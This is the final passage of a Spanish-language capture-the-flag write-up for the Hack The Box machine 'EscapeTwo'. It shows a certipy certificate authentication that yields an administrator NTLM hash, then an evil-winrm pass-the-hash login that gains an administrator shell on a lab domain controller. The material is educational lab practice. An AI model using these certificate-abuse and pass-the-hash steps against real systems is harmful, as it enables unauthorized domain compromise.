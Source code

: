 ```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51
```

<figure><img src="htb/img/EscapeTwo/EscapeTwo13.png" alt=""><figcaption></figcaption></figure>

Ahora con ese hash NTLM podemos entrar con evil-winrm a una shell del usuario

```bash
evil-winrm -i 10.10.11.51 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
```

<figure><img src="htb/img/EscapeTwo/EscapeTwo14.png" alt=""><figcaption></figcaption></figure>

Y ya tenemos la root. Gracias por leer!&#x20;
